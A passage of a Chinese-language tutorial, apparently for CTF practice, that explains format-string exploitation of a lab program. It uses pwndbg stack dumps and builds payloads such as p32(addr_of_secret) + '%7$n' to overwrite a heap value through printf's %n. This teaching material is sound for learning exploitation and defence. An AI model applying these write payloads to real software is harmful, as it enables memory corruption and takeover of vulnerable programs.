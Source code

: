这段代码中，我们可以任意控制`printf`函数的参数。我们的目标是覆盖`secret`指向的堆块的值，若我们成功，即可说明我们完成了任意内存覆盖。

同样是下断点到`call printf`（`printf(content)`的那个`printf`）,我们先随便输入一点，比如`%p%p`，查看栈如下：

```
pwndbg> stack
00:0000│ esp     0xffffd010 —▸ 0xffffd02c ◂— '%p%p\n'
01:0004│         0xffffd014 —▸ 0xffffd02c ◂— '%p%p\n'
02:0008│         0xffffd018 ◂— 0x20 /* ' ' */
03:000c│         0xffffd01c —▸ 0x56556268 (main+27) ◂— add ebx, 0x2d60
04:0010│         0xffffd020 —▸ 0xf7fb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e9d6c
05:0014│         0xffffd024 —▸ 0xf7fe22f0 ◂— endbr32 
06:0018│         0xffffd028 —▸ 0x5655a1a0 ◂— 0x0
07:001c│ eax ecx 0xffffd02c ◂— '%p%p\n'
```

我们观察到，实际上我们输入的`%p%p`就存在于栈上，例如上面是在`0xffffd02c`。那么输入`%7$p`即可查看这个值，如下：

```
$ ./format 
The address of secret is 0x574791a0.
%7$p
0x70243725
The value of secret comes to 0x0.
```

`0x70243725`就是`%7$p`的十六进制形式，因此确实能够索引到这个值。那么，我们当然也可以用`%n`来向这个位置写值！

我们上面得知，我们输入的数据会放在栈上的第7个位置。因此，若我们输入以下数据：

```
p32(addr_of_secret) + "%7$n"
```

将断点下到`call printf`，查看栈如下:

```
pwndbg> stack 0x10
00:0000│ esp     0xffe03db0 —▸ 0xffe03dcc —▸ 0x56d3b1a0 ◂— 0x0
01:0004│         0xffe03db4 —▸ 0xffe03dcc —▸ 0x56d3b1a0 ◂— 0x0
02:0008│         0xffe03db8 ◂— 0x20 /* ' ' */
03:000c│         0xffe03dbc —▸ 0x5659d268 (main+27) ◂— add ebx, 0x2d60
04:0010│         0xffe03dc0 —▸ 0xf7f24000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e9d6c
05:0014│         0xffe03dc4 —▸ 0xf7f562f0 ◂— endbr32 
06:0018│         0xffe03dc8 —▸ 0x56d3b1a0 ◂— 0x0
07:001c│ eax ecx 0xffe03dcc —▸ 0x56d3b1a0 ◂— 0x0  // 第7个参数
08:0020│         0xffe03dd0 ◂— '%7$n'             // 第8个参数
09:0024│         0xffe03dd4 ◂— 0x0
... ↓            5 skipped
0f:003c│         0xffe03dec ◂— 0xa407ee00
```

`printf`函数会先输出`p32(addr_of_secret)`，输出长度为4个字符。然后再解析`%7$n`，会将已经输出的字符数量写入栈上的第七个值处。而栈上第七个位置是`p32(addr_of_secret)`，因此会将`secret`指向的堆块的值写为`4`。

同样的，我们可以控制输出的长度，来使得`secret`指向的值为任意数值，例如我们发送以下数据：

```
p32(addr_of_secret) + "%20c%7$n"
```
